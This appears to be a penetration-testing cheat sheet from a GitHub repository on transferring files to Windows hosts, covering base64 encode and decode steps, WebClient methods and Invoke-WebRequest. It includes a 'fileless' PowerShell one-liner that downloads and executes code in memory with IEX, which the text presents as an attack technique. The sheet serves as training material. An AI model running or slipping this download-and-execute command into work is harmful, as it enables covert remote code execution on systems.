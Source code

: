 # Windows
[PowerShell Base64 Encode & Decode](https://github.com/h4ck3r-cat/file.transfers/edit/main/Windows.md#powershell-base64-encode--decode)
<br>
[PowerShell Web Downloads](https://github.com/h4ck3r-cat/file.transfers/edit/main/Windows/Windows.md#step-2-encode-file-to-base64)
<br>
[SMB Downloads](https://github.com/h4ck3r-cat/file.transfers/edit/main/Windows.md#po)
## PowerShell Base64 Encode & Decode
This is the simplest and most conveinient method and does **not** require a network connection

### Step 1: Check MD5 Hash
```bash
$ md5sum file.txt
f4d11dce99a848fe050ab3ef2c966b62  file.txt
```
### Step 2: Encode File to Base64
```bash
$ cat file.txt |base64 -w 0

YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K
```
### Step 3: Decode in Powershell
```powershell
PS> [Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('YXJvbgpwd25tZW93CmVnb3Rpc3RpY2Fsc3cKYWRtaW4K')) | Out-File -FilePath "C:\Path\To\Decoded\Output.txt" -Encoding UTF8
```
### Step 4: Check MD5 Hash in PowerShell
```powershell
PS> Get-FileHash Output.txt -Algorithm md5

F4D11DCE99A848FE050AB3EF2C966B62
```
If the MD5 hashs are the same, we succeeded in trasfering the file.
> [!IMPORTANT]
> If the MD5 hashs do not match then you might have a few reasons why:
> 1. Line Endings: Different operating systems use different conventions for line endings in text files. Windows typically uses CRLF (\r\n), while Unix-based systems use LF (\n). If the line endings are different, it can result in different MD5 checksums.
> 2. Encoding Differences: If the files are text files and have different character encodings (e.g., UTF-8 vs. UTF-16), this can result in different MD5 checksums.
> 3. Whitespace Differences: Extra whitespace (leading/trailing spaces, tabs, etc.) can also cause differences in MD5 checksums.

By addressing these factors, you should be able to get consistent MD5 checksums for files with identical content.

## PowerShell Web Downloads
PowerShell provides a versatile array of **file transfer** capabilities, with the *System.Net.WebClient* class serving as a reliable tool for downloading files across **HTTP**, **HTTPS**, or **FTP** protocols. Within this class, various methods cater to different download requirements. The following table outlines key **WebClient** methods designed for downloading data from a resource, each catering to specific scenarios:

| Method              | Description                                                                                             |
|---------------------|---------------------------------------------------------------------------------------------------------|
| OpenRead            | Retrieves data from a resource and returns it as a Stream.                                               |
| OpenReadAsync       | Asynchronously obtains data from a resource without blocking the calling thread.                         |
| DownloadData        | Downloads data from a resource and returns it as a Byte array.                                           |
| DownloadDataAsync   | Asynchronously downloads data from a resource, returning a Byte array without blocking the calling thread.|
| [DownloadFile]()        | Downloads data from a resource and saves it to a local file.                                             |
| DownloadFileAsync   | Asynchronously downloads data from a resource to a local file without blocking the calling thread.       |
| [DownloadString]()      | Retrieves a String from a resource and returns it as a String.                                            |
| DownloadStringAsync | Asynchronously downloads a String from a resource without blocking the calling thread.                    |

### PowerShell DownloadFile Method
You can download files using the following powershell code:
```powershell
PS> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

### PowerShell DownloadString - Fileless Method
Fileless attacks operate by utilizing certain functions within an operating system to download and execute a payload directly. Instead of saving a PowerShell script to the computer's storage, we execute it straight from the computer's memory using the Invoke-Expression cmdlet or its shorthand alias, IEX as follows:
```powershell
PS> IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
```

### PowerShell Invoke-WebRequest
```powershell
PS> Invoke-WebRequest <Target File URL> -OutFile <Output File Name>
```
## SMB Downloads
